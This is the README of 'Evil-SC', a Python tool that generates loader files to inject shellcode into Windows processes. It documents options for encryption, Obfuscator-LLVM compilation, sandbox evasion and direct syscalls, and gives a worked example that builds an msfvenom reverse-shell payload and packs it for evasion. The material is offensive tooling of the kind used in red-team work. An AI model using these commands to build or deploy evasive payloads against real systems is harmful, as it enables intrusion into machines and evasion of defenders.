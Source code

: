 # Evil-SC - Template-based Shellcode Loader

## Introduction
Evil-SC is a template-based shellcode loader written in Python. It allows you to generate loader files for injecting shellcode into a target process, using different methods and encoders.

!! WORK IN PROGRESS !!

## Todo
- Functions name randomization ?
- uuid + DES3 bug 
- Make new Sandbox evasion templates
- Make new methods templates

## Usage
1. Clone the repository:
```bash
git clone https://github.com/your_username/evil-sc.git
cd evil-sc
```

2. Run the script
```
$ python evil-sc.py windows -h

    ███████╗██╗   ██╗██╗██╗      ███████╗ ██████╗
    ██╔════╝██║   ██║██║██║      ██╔════╝██╔════╝
    █████╗  ██║   ██║██║██║█████╗███████╗██║
    ██╔══╝  ╚██╗ ██╔╝██║██║╚════╝╚════██║██║
    ███████╗ ╚████╔╝ ██║███████╗ ███████║╚██████╗
    ╚══════╝  ╚═══╝  ╚═╝╚══════╝ ╚══════╝ ╚═════╝
                                                 @v4resk

usage: evil-sc.py windows [-h] -m {SimpleExec,CurrentThread,CreateThread} [-e {nop,rc4,uuid,base64,aes,des3,xor}] [-l] [-p PROCESS_NAME] [-se {sleep}]
                          [-sc {SysWhispers3,GetSyscallStub}] [--sw-method {embedded,egg_hunter,jumper,jumper_randomized}] [-o OUTPUT_FILE] [--encoder ENCODER]
                          shellcode

positional arguments:
  shellcode             Specify the shellcode variable

options:
  -h, --help            show this help message and exit
  -m {SimpleExec,CurrentThread,CreateThread}, --method {SimpleExec,CurrentThread,CreateThread}
                        Shellcode-loading method
  -e {nop,rc4,uuid,base64,aes,des3,xor}, --encrypt {nop,rc4,uuid,base64,aes,des3,xor}
                        Template-dependent encryption or encoding method to be applied to the shellcode
  -l, --llvmo           Use Obfuscator-LLVM to compile
  -p PROCESS_NAME, --process PROCESS_NAME
                        Process name for shellcode injection
  -se {sleep}, --sandbox-evasion {sleep}
                        Sandbox evasion technique
  -sc {SysWhispers3,GetSyscallStub}, --syscall {SysWhispers3,GetSyscallStub}
                        Syscall execution method for supported templates
  --sw-method {embedded,egg_hunter,jumper,jumper_randomized}
                        Syscall execution method for supported templates
  -o OUTPUT_FILE, --outfile OUTPUT_FILE
                        Output filename
  --encoder ENCODER     Template-independent encoding method to be applied to the shellcode (default: sgn)

```

## Example

```bash
# Generate a shellcode
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o /tmp/msfout.bin

# Pack it
python evil-sc.py windows -m SimpleExec -e xor -e aes -e nop -l -sc SysWhispers3 /tmp/msfout.bin
```

## Make a template

Windows template should start with "Win_"
Linux template should start with "Lin_"

## Resources

There is a lot to come here